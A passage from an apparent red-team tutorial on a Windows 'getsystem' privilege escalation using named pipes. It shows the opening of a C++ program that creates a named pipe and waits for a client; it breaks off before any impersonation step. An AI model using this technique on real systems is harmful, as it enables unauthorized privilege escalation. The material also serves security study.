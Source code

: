 So the main logic workflow is something like this:

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/schemes/malware-11.png" alt="pic">

# Code

If we take a look at this ***getsystem*** C++ implementation we see that it's not too long. Although with this example you have to connect to it manually, we'll also automate this

```cpp
int main() {
	LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
	LPVOID pipeBuffer = NULL;
	HANDLE serverPipe;
	DWORD readBytes = 0;
	DWORD readBuffer = 0;
	int err = 0;
	BOOL isPipeConnected;
	BOOL isPipeOpen;
	wchar_t message[] = L"HELL";
	DWORD messageLenght = lstrlen(message) * 2;
	DWORD bytesWritten = 0;

	std::wcout << "Creating named pipe " << pipeName << std::endl;
	serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

	isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
	if (isPipeConnected) {
		std::wcout << "Incoming connection to " << pipeName << std::endl;
	}
```